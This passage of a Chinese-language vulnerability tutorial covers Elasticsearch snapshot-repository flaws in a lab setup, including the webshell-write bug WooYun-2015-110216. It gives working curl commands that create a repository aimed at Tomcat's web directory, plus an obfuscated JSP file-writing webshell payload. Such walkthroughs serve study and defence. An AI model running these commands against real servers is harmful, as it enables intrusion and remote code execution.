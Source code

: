 访问

```
curl -XPOST your-ip:9200/yz.jsp/yz.jsp/1 
-d' {"<%new java.io.RandomAccessFile(application.getRealPath
(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new 
String(new byte[]{114,119})).write(request.getParameter(new String
(new byte[]{102})).getBytes());%>":"test"} '
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDE0dV1xEyw9ZBj4bSUocCO1WoqBJ5NbUN2yasTFCIXHGqSov8ibj8Tj0Z14nKqQSe1DK3ZZczfIgA/640?wx_fmt=png)

如上图，在错误信息中包含文件内容（编码后），对其进行解码即可获得文件：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDE0dV1xEyw9ZBj4bSUocCO7xh08sFHIKTCCzmU9dcibc1uVHYFMMv4JzesUojWwAwr2BOaK13wklA/640?wx_fmt=png)

**Elasticsearch 写入 webshell 漏洞（WooYun-2015-110216）**

**漏洞原理**

ElasticSearch 具有备份数据的功能，用户可以传入一个路径，让其将数据备份到该路径下，且文件名和后缀都可控。

所以，如果同文件系统下还跑着其他服务，如 Tomcat、PHP 等，我们可以利用 ElasticSearch 的备份功能写入一个 webshell。

和 CVE-2015-5531 类似，该漏洞和备份仓库有关。在 elasticsearch1.5.1 以后，其将备份仓库的根路径限制在配置文件的配置项`path.repo`中，而且如果管理员不配置该选项，则默认不能使用该功能。即使管理员配置了该选项，web 路径如果不在该目录下，也无法写入 webshell。所以该漏洞影响的 ElasticSearch 版本是 1.5.x 以前。

**影响版本**

ElasticSearch 1.5.x 之前

简单介绍一下本测试环境。本测试环境同时运行了 Tomcat 和 ElasticSearch，Tomcat 目录在 / usr/local/tomcat，web 目录是 / usr/local/tomcat/webapps；ElasticSearch 目录在 / usr/share/elasticsearch。  

我们的目标就是利用 ElasticSearch，在 / usr/local/tomcat/webapps 目录下写入我们的 webshell。

**首先创建一个恶意索引文档：**

```
curl -XPUT 'your-ip:9200/_snapshot/yz.jsp' -d '{
     "type": "fs",
     "settings": {
          "location": "/usr/local/tomcat/webapps/wwwroot/",
          "compress": false
     }
}'
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDDE0dV1xEyw9ZBj4bSUocCOWvWT9RnmNGicCibMtA89m3OyG0FZfjWtI2CyticQjg11icwHTkWY4Yb4tQ/640?wx_fmt=png)

**再创建一个恶意的存储库，其中 location 的值即为我要写入的路径。**

这个 Repositories 的路径比较有意思，因为他可以写到可以访问到的任意地方，并且如果这个路径不存在的话会自动创建。那也就是说你可以通过文件访问协议创建任意的文件夹。这里我把这个路径指向到了 tomcat 的 web 部署目录，因为只要在这个文件夹创建目录 Tomcat 就会自动创建一个新的应用 (文件名为 wwwroot 的话创建出来的应用名称就是 wwwroot 了)。

```
curl -XPUT "your-ip:9200/_snapshot/yz.jsp/yz.jsp" -d '{
     "indices": "yz.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
}'
```

